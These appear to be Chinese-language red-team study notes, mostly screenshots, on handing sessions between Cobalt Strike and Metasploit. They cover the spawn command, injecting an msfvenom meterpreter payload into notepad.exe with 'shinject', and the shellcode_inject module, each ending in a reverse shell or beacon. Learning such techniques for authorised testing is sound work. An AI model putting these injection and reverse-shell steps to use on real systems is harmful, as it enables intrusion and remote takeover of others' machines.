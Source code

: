 # Cobalt Strike-> metesploit

## 利用```spawn```命令

1. CS新建一个```Foreign Listener```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659445159629.png)

2. msf开启一个监听

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659445209294.png)

3. CS执行``` spawn <listener name>```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659445414283.png)

4. msf获得一个rev shell

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659445495366.png)


## 利用```shinject```命令

1. 在kali，用msfvenom编译一个payload，这里选择64位的meterpreter

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659445776654.png)


2. 把上面的payload传到windows(这里由于我的CS客户端还是kali，所以不用传)


3. 在CS，beacon开启靶机上的一个程序，这里选择```notepad.exe```

```
execute C:\Windows\System32\notepad.exe
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659446058619.png)

查看```notepad.exe```的PID，记住这里的PID是：```7136```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659446150355.png)

4. 在msf开启一个监听，注意这里的payload与上面msfvenom编译时的一致

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659446253717.png)

5. 在CS，利用```shinject```命令注入我们上面编译的payload到```notepad.exe```

```
shinject 7136 x64 payload/msf.bin
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659446665900.png)

6. msf收到rev shell

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659446748548.png)



# metesploit->Cobalt Strike 

1. 在CS编译一个payload，```Attacks > Packages > Windows Executable (S)```, select the desired listener, select Raw as the Output type and select Use x64 payload

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659447023087.png)

2. 传到msf所在机器

3. msf使用```post/windows/manage/shellcode_inject```模块

设置session和payload，执行

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659447313147.png)

4. CS获得一个beacon

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659447399291.png)
